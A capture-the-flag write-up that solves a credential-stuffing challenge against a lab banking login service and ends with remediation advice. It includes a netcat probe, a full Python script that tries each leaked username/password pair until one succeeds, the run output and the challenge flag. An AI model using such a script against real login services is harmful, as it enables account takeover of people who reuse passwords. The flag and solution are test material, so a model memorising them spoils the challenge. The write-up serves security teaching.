



# Credential Stuffing — Web Exploitation / Network

> **Category:** Web Exploitation / Networking
> **Flag:** `academy{d0nt_r3u5e_cr3d3nt1als_9dee1556}`

## Challenge Overview

Credential stuffing is the automated injection of stolen username/password
pairs into login forms, hoping that a user reused the same credentials
across multiple sites. The challenge provides a dump of leaked credentials
from a (fictional) department-store breach, and a raw TCP login service for
an online bank. The goal: find the one person who reused their
department-store password on their bank account, and log in as them.

## TL;DR

The bank's login service is a plain TCP socket (accessible with `nc`) that
takes a username and password and returns either `Invalid username or
password` or a welcome message. A Python script reads every credential pair
from the leaked dump, tries each one against the bank service in turn, and
stops the moment it finds a pair that isn't rejected — revealing the flag.

## Step-by-Step

### 1. Connect to the service and observe the protocol

Before writing any code, it's worth manually testing the connection to see
exactly what the server expects:



```
nc xebec.cylabacademy.net 32971
```

```
=========================================
Welcome to the Online Banking Service!
=========================================

Please enter your username & password to login.
Username: test
Password: test

Invalid username or password
```

This confirms the exact sequence: the server sends a `Username:` prompt,
waits for input, sends a `Password:` prompt, waits for input, then replies
with either a rejection or (presumably) a success message.

### 2. Download and inspect the credentials dump

```bash
wget https://challenge-files.cylabacademy.net/library/c09b136a3ea8ea4b1ccac5b6ce90459dc324569b56aca058ce59c841c85664db/creds-dump.txt
head creds-dump.txt
wc -l creds-dump.txt
```



- `wget <url>` downloads the file and saves it as `creds-dump.txt`.
- `head creds-dump.txt` previews the first 10 lines, revealing the format:
  `username;password`, semicolon-separated.
- `wc -l creds-dump.txt` counts the lines — **1500** credential pairs in
  total.

### 3. Write a script to automate the login attempts

Rather than trying all 1500 pairs by hand, a Python script drives the raw
socket connection automatically — connecting, waiting for each prompt,
sending the right value, and reading the server's full response before
deciding whether the attempt succeeded:

```python
import socket

HOST = "xebec.cylabacademy.net"
PORT = 12127  # matches the instance's current port

def try_login(username, password):
    with socket.create_connection((HOST, PORT), timeout=5) as s:
        s.settimeout(5)

        buf = b""
        while b"Username:" not in buf:
            buf += s.recv(4096)
        s.sendall((username + "\n").encode())

        buf = b""
        while b"Password:" not in buf:
            buf += s.recv(4096)
        s.sendall((password + "\n").encode())

        # Keep reading until the server closes the connection or goes quiet,
        # so we capture the FULL response rather than a partial fragment
        response = b""
        try:
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
        except socket.timeout:
            pass

        return response.decode(errors="ignore")

def main():
    with open("creds-dump.txt") as f:
        creds = [line.strip().split(";", 1) for line in f if line.strip()]

    for username, password in creds:
        try:
            response = try_login(username, password)
        except Exception as e:
            print(f"[!] {username}:{password} -> connection error: {e}")
            continue

        if "Invalid username or password" not in response:
            print(f"[+] SUCCESS with {username}:{password}")
            print(response)
            break
        else:
            print(f"[-] {username}:{password} failed")

if __name__ == "__main__":
    main()
```

A couple of details worth calling out:

- **Reading until fully done, not just once** — the response-reading loop
  keeps calling `recv()` until either the connection closes or the server
  goes quiet for the timeout window. An earlier, simpler version that only
  called `recv()` once produced false positives: it sometimes caught only
  an echoed fragment (like the password being echoed back) before the
  real `Invalid username or password` message had actually arrived,
  making a failed attempt look like a success.
- **`;` as the separator** — matches exactly what `head` revealed about
  the dump's format in step 2.

### 4. Run it

Save the script as `stuff.py` in the same folder as `creds-dump.txt`, then:

```bash
python3 stuff.py
```

### 5. Watch it find the match

The script works through the list, printing each failure, until it hits a
pair that isn't rejected:



```
[-] janell:tales failed
[-] alton:supra failed
[-] justin:everton failed
[-] florentina:peppers failed
[-] bunnie:noles failed
[-] maryanna:asdf failed
[+] SUCCESS with ranna:phoenix

Authenticating...
Welcome ranna!
academy{d0nt_r3u5e_cr3d3nt1als_9dee1556}
```

`ranna` reused their department-store password (`phoenix`) on their bank
account — exactly the kind of password reuse credential stuffing relies on.

## Root Cause

This challenge illustrates a real-world attack rather than a bug in a
single app: the bank itself didn't necessarily do anything wrong, but
because a *user* reused a password that was exposed in an unrelated
breach, that password became usable against a completely different
service. The core issue is **password reuse across sites**, combined with
the bank having no protections (rate limiting, lockouts, MFA) against
automated brute-force attempts at scale.

## Remediation

- **For users:** never reuse passwords across sites — use a password
  manager to generate and store a unique password per service.
- **For services:** enforce rate limiting and account lockouts on
  repeated failed login attempts from the same source, monitor for
  credential-stuffing patterns (many rapid attempts against many
  different usernames), and offer (or require) multi-factor
  authentication so a leaked password alone isn't enough to log in.
- Services can also proactively check new passwords against known
  breached-password lists (e.g. Have I Been Pwned's Pwned Passwords API)
  and reject reused/leaked ones at signup or password-change time.

## Tools Used

- `nc` (netcat) — manually probing the raw TCP login service
- `wget` — downloading the leaked credentials dump
- Python (`socket`) — automating the login attempts against every leaked
  credential pair
